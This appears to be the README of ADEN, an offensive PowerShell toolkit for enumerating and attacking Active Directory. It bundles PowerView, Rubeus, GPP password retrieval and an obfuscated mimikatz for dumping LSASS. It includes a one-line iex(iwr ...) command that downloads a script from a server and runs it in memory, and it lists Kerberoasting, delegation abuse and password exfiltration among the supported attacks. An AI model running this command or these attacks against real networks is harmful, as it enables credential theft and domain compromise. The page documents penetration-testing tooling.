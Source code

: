 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a merge of several enumeration and exploitation projects:

- PowerView
- ASREPRoast
- Get-GPPPassword
- New-GPOImmediateTask
- Invoke-Rubeus


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session. \
 \
An obfuscated version of mimikatz is included separately in order to dump LSASS: ```lsdmp.ps1```\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
Once the script is loaded in-memory, the function ```Invoke-FullEnum``` will launch a full enumeration that will allow you to initially map the AD environment.

```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
